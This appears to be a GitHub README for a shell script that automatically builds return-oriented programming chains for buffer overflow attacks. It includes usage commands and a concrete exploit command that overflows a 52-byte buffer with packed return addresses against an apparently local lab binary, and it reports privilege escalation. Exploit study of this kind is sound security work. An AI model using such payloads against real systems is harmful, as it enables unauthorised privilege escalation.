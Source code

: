 

# ROPS

A script for the quick and automated construction of ROP (Return-Oriented Programming) chains to generate payloads for ROP attacks.

# Usage

`$ ./rops.sh`

![alt text](./pic/image.png)

`$ ./rops.sh /home/ayush/.binary/rop`

![alt text](./pic/image-1.png)

The script will automatically generate a valid ROP chain payload based on the provided binary file. Once the buffer overflow size is confirmed, you can use the payload generated by the script.

![alt text](./pic/image-2.png)

The payload generated by the script is automatically converted to little-endian byte order, so it can be used directly by copying.

Example payload:

`payload => BUFFER + 0xA03DE5B7 + 0xD079E4B7 + 0x0B4AF7B7`

In the GDB example, with a buffer size of 52, the payload is constructed as follows:

>/home/ayush/.binary/rop $(python2 -c 'print "A"*52 + "\xA0\x3D\xE5\xB7" + "\xD0\x79\xE4\xB7"+"\x0B\x4A\xF7\xB7"')

Successful privilege escalation

![alt text](./pic/image-3.png)
